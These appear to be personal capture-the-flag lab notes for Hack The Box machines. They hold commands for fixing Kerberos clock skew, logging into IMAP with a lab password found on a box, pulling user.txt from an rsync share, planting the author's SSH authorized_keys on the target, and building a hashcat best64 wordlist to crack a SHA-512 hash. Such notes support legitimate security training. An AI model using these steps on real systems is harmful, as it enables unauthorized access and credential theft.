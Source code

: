 ## Clock skew too great

```

[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
                                                                                                                                                                        
┌──(arun㉿kali)-[~/AD/AD-HTB-Tracks/Active]
└─$ sudo ntpdate -u 10.10.10.100              
2023-02-09 20:17:57.155820 (+0530) +3645.074642 +/- 0.179480 10.10.10.100 s1 no-leap
CLOCK: time stepped by 3645.074642

```

## Dovecot imapd cmds

```
1. telnet brainfuck.htb 143
2. a1 LOGIN orestis kHGuERB29DNiNE
3. a2 LIST "" "*"
4. a3 EXAMINE INBOX
5. a4 FETCH 1 BODY[]
6. a5 FETCH 2 BODY[]
```

## Rsync

rsync -av --list-only rsync://10.10.44.104/
	
	files           Necessary home interaction

rsync rsync://rsync-connect@10.10.44.104/files/

rsync rsync://rsync-connect@10.10.44.104/files/sys-internal/user.txt . 
                                                                                                                                                                      
rsync home/arundhanush/.ssh/authorized_keys rsync://rsync-connect@10.10.44.104/files/sys-internal/.ssh/


## Built wordlist using base64 rule.

We will use the wordlist built by applying hashcat’s best64 rules to the passwd list.

hashcat --force passwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64-passwd.txt

Example:

Hash : b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885

Hashid tells its sha-512. The following https://www.dcode.fr/sha512-hash decoder cracked successfully. but there is a hint "password uses best64". So bulit the wordlist using base64 rule with help of hashcat.

hashcat --force passwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64-passwd.txt

## loops to check the ports
